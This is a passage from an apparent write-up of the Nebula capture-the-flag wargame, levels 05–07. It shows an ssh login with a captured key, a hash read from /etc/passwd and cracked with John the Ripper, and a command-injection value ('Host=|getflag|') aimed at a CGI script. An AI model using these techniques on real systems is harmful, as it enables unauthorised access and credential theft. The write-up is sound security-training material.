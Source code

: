 Then I saved it down and sshed into the flag-user.

```
level05@nebula:/tmp/05/.ssh$ ssh -i id_rsa flag05@192.168.1.105
```

## Level 06

Old unix-passord-config. Okay, I know that passowrd were stored in /etc/passwd before they where stored in shadow.

```
cat /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Looks like it can be done with john the ripper.
So I just copy-pasted the hash into a file and then ran john on it like this

```
 $ john level06Hash
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (?)
1g 0:00:00:00 DONE 2/3 (2016-05-08 11:29) 2.777g/s 355.5p/s 355.5c/s 355.5C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So that was easy.

## Level 07
This level was a bit tricky. It is about teaching command injection.
So these articles were really useful.
http://www.golemtechnologies.com/articles/shell-injection
https://www.owasp.org/index.php/Testing_for_Command_Injection_%28OTG-INPVAL-013%29
So we have a few files.
.lesshst - that the history from the program less

```
level07@nebula:~$ cat .viminfo
# File marks:
'0  1  0  ~/index.cgi?Host=|getflag|
'1  1  0  ~/index.cgi
# Jumplist (newest first):
-'  1  0  ~/index.cgi?Host=|getflag|
-'  1  0  ~/index.cgi
-'  1  0  ~/index.cgi
# History of marks within files (newest to oldest):
> ~/index.cgi?Host=|getflag|
	"	1	0
```

And here is the cgi-code.
